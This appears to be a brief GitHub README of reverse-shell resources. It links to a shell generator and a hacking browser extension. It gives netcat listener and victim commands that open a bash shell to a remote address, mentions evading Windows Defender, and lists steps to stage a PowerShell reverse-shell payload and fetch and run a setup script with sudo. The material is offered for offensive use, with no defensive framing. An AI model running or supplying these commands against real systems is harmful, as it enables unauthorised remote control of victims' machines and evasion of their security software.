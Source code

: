 # ShellCode

### Shell Generator Resources(Reverse, Bind, HoaxShell, MSFVenom)
[Shell Generator](https://www.revshells.com)

**MAC OS Example:**

- Attacker: nc -lvnp 1337

- Victim: nc 192.168.50.53 1337 -e /bin/bash

**Windwos 11 Example:**

- cat & mouse game to bypass defender


### Browser Extensions
[Hack-Tools Chrome Extension](https://chromewebstore.google.com/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi)

### Spin Up a local Web Server on Linux
To set up a web server and host your script, follow these steps:

Create a PowerShell script:
   ```bash
   touch powershellreverse.bat
   echo "<ShellCode here>" > powershellreverse.bat
   wget https://github.com/NickolayMOmelchenko/ShellCode/raw/refs/heads/main/setup_windows_website.sh
   chmod +x setup_windows_website.sh
   sudo ./setup_windows_website.sh

